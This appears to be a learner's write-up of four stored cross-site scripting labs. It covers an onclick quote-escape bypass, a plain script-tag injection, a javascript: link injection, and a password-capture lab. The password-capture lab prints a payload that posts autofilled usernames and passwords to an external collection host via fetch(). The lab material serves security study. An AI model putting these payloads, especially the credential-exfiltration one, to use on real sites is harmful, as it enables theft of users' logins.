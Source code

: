 # Stored XSS

Take in and store somewhere that can lead to vulnerable for others user, website itself…

## LAB 00: ****Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**

Real case: [https://www.websecuritylens.org/using-html-entity-encode-to-mitigate-xss-vulnerability-then-double-check-it/](https://www.websecuritylens.org/using-html-entity-encode-to-mitigate-xss-vulnerability-then-double-check-it/)

### Overall

The blog is comment enabled on each post. And when you fill in the full information include your comment, name, email & personal website, the website will combine with your name to make up a clickable name that link to your personal website. And the technique is perform some JS code.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled.png)

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%201.png)

So, in this case, seem only this snippet of code may cause harm to the blog. We try to inject some special characters to test out the function. We may noted that when testing with [ /\'"<>${}- ] , the blog escape ' with back dash  & encode < > “, the rest [ $ { } - ` / ] is not encoded or escape. This may be a hint for use to craft a payload that cause XSS.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%202.png)

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%203.png)

### Step to reproduce

At this point, we can see the picture below that these are what we can use without encode or escape. So, the point is to inject some JS code that cause the XSS happen in the blog.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%204.png)

Testing the theory in the native environment, we may noted that when combining ‘- together, we can escape the single quote pairs that boundary inside the tracker.track() method, which is a sink to the vulnerable in this case.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%205.png)

This make our payload, which is [ ‘-alert(1)-’ ] appear outside the single quote boundary the whole website parameter we need to input in this case context. Which then lead to the execute of the JS that cause XSS to happen.

But the problem is that we noted that ‘ is escaped by the back dash above, so we need to conduct a way to bypass this escape method to successful make this payload valid.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%206.png)

Then, the first thing we may want to give a shoot is encode what is being escaped using Burp’s decoder, trying some encode that make sense and find out the correct 1 is to html encode the single quote character and recraft the payload.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%207.png)

PAYLOAD: 

```bash
http:&#x27;-alert(1)-&#x27;
```

Reloading the blog, the payload will immediately trigger the XSS payload at loading screen.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%208.png)

### Mitigate

[Output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding)

[Sanitize with purifier](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#html-sanitization)

### Appendix

[https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#introduction](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#introduction)

New way to approach: 

[https://medium.com/@adonkidz7/bypass-xss-filter-using-html-escape-f2e06bebc8c3](https://medium.com/@adonkidz7/bypass-xss-filter-using-html-escape-f2e06bebc8c3)

bypass: 

[https://www.cardinaleconcepts.com/exploit-xss-bypass-htmlencode/](https://www.cardinaleconcepts.com/exploit-xss-bypass-htmlencode/)

## LAB 01: ****Stored XSS into HTML context with nothing encoded****

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%209.png)

Escape the p tag, html tag injected being executed

PAYLOAD: 

```jsx
<script>prompt(”hello”);</script>
```

## ****LAB 02: Exploiting cross-site scripting to capture passwords****

DEMO: [https://xss-autofill.web.app/](https://xss-autofill.web.app/)

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%2010.png)

Allow inject html tag and execute directly on the page

—> Need to inject tags that accept username + password when user visit the page, because of autofill function automatically run and fill in the malicious field, it will use event onchange to track on the field, if the value length diff than the default 1, it will directly sent the content to attackers’ server. 

PAYLOAD:

```jsx
<input name=username id=username> //stored username
<input type=password name=password onchange="if(this.value.length)fetch('[https://svrldo6qew776jpux8o63t5pzg58tzho.oastify.com](https://svrldo6qew776jpux8o63t5pzg58tzho.oastify.com/)',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"> // check if 2 fields have diff value than default then fetch 
to the attacker website and send information
```

## LAB 03: **Stored XSS into anchor `href` attribute with double quotes HTML-encoded**

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%2011.png)

Post package with full information, website will store as a link in a tag which is name of the comment’s author, and they take it in raw format so we can inject some kind of malicious code lead to XSS like JS pseudo-protocol code.

![Untitled](Stored%20XSS%20b587f28661134e6b998c3e3dd4dab71f/Untitled%2012.png)

Inject in the website field via repeater. So, whenever someone trigger the author name will pop up an XSS.